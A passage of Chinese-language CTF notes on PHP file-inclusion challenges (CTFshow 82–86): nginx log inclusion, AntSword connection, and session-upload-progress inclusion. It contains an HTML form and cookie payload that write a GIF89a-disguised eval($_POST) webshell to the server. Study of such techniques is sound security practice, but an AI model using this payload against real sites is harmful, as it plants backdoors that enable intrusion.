 包含日志

```
file=/var/log/nginx/access.log
```

![image-20240425165355300](D:\Infiltration\笔记\note\图片\image-20240425165355300.png)



使用蚁剑连接，其他不成功

![image-20240425165159891](D:\Infiltration\笔记\note\图片\image-20240425165159891.png)





### CTFshow-82—86



#### 包含SESSION

默认session路径

```
Linux：
/tmp或/var/lib/php/session
Windows:
C:\WINDOWS\Temp
```



产生session文件脚本



```
<!DOCTYPE html>
<html>
<body>
<form action="https://731cab10-587f-45f9-bfb3-e8ae6b9b66b5.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php fputs(fopen('shell.php','w'),'GIF89a <?php @eval($_POST[pass])?>)'?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

上传任意文件抓包添加cookie

```
Cookie:PHPSESSID=ctf
<?php fputs(fopen('shell.php','w'),'GIF89a <?php @eval($_POST[pass])?>)'?>
```

